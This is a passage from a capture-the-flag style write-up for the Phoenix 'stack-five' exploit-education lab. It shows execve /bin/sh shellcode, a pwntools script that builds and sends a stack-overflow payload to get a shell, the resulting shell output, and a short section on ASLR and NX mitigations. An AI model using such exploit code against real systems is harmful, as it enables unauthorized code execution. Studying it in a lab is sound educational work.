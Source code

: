 ```python
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
'''

# Finally, putting them together into one payload
payload = PADDING + rip + nop_slide + shellcode

# Sending the payload
p.sendlineafter(b'education\n', payload)

# Going into interactive mode to interact with new shell
p.interactive()
```

We send the payload to the process we opened with `p.sendlineafter()` to send the payload right after the banner is printed. 

Then we go into interactive mode to input commands into the new `/bin/sh` process.

```bash
user@phoenix-amd64:/opt/phoenix/amd64$ ./solve_stack-five.py
[+] Starting local process '/opt/phoenix/amd64/stack-five': pid 1219
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
```

Success!


# Mitigation

This exploit would not have been possible if Address space layout randomization (ASLR) was enabled on this machine and the program was compiled with the `NX` bit enabled which disables any code execution from the stack. Since this is a VM made for exploit education, those mitigations were turned off but in a real world scenario they should always be enabled.

